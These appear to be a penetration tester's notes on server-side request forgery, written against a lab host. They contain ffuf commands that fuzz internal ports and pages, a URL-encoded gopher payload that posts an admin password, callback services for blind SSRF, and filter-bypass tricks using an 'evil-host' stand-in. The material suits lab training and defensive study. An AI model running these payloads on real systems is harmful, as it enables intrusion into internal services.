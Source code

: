 https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Request%20Forgery/README.md
##### Fuzz to check open ports:
```bash
ffuf -w ports.txt -u http://10.129.82.103/index.php -X POST -d "dateserver=http://localhost:FUZZ&date=2024-01-01"  -H "Content-Type: application/x-www-form-urlencoded"  -fr 'Failed'
```
[[ffuf]]

##### Fuzz to find available page
```bash
ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://172.17.0.2/index.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01" -fr "Server at dateserver.htb Port 80"
```

##### Gopher
[[gopher]]
Send arbitrary bytes to a TCP socket.
Request:
```
POST /admin.php HTTP/1.1
Host: dateserver.htb
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

adminpw=admin
```
URL encode it:
```
gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin
```
URL generator:
https://github.com/tarunkant/Gopherus

### Blind SSRF

Burp collaborator replacements:
https://app.requestbin.net/
[Interactsh | Web Client](https://app.interactsh.com/#/)
[Webhook.site - Test, transform and automate Web requests and emails](https://webhook.site/#!/view/295f010b-22b7-4a69-a790-2ed9ff4b8a0e)

#### Prevention
https://cheatsheetseries.owasp.org/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.html

#### Blacklist bypass
- Use an alternative IP representation of `127.0.0.1`, such as `2130706433`, `017700000001`, or `127.1`.
- Register your own domain name that resolves to `127.0.0.1`. You can use `spoofed.burpcollaborator.net` for this purpose.
- Obfuscate blocked strings using URL encoding or case variation.
- Provide a URL that you control, which redirects to the target URL. Try using different redirect codes, as well as different protocols for the target URL. For example, switching from an `http:` to `https:` URL during the redirect has been shown to bypass some anti-SSRF filters.
* Double URL encode
##### Whitelist bypass
* `https://expected-host:fakepassword@evil-host`
* `https://evil-host#expected-host`
* `https://expected-host.evil-host`
* Open redirects

##### Attack surfaces
* Partial URLs in requests
* XML - SSRF via XXE
* Referer
